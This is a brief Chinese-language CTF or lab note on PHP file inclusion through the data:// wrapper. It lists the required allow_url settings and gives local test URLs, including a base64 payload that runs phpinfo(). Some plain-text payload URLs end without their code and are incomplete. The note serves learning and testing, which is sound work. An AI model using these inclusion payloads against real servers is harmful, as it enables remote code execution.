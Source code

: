 data://协议必须双在on才能正常使用；

allow_url_fopen ：on

allow_url_include：on

参考自：http://php.net/manual/zh/wrappers.data.php, 官方文档上allow_url_fopen应为yes。

![](https://raw.githubusercontent.com/h1iba1/h1iba1.github.io/refs/heads/master/_posts/CTF/ctf/文件包含/php伪协议/images/3C633AA7E39249A0AC2BBC260AE9C4211e8870b0b31.webp)

测试现象：

http://127.0.0.1/cmd.php?file=data://text/plain,

or

http://127.0.0.1/cmd.php?file=data://text/plain;base64,PD9waHAgcGhwaW5mbygpPz4=

也可以：

http://127.0.0.1/cmd.php?file=data:text/plain,

or

http://127.0.0.1/cmd.php?file=data:text/plain;base64,PD9waHAgcGhwaW5mbygpPz4=

![](https://raw.githubusercontent.com/h1iba1/h1iba1.github.io/refs/heads/master/_posts/CTF/ctf/文件包含/php伪协议/images/AFCF54A0E7274998A119A28A7328FA0329afacb8d4a.webp)
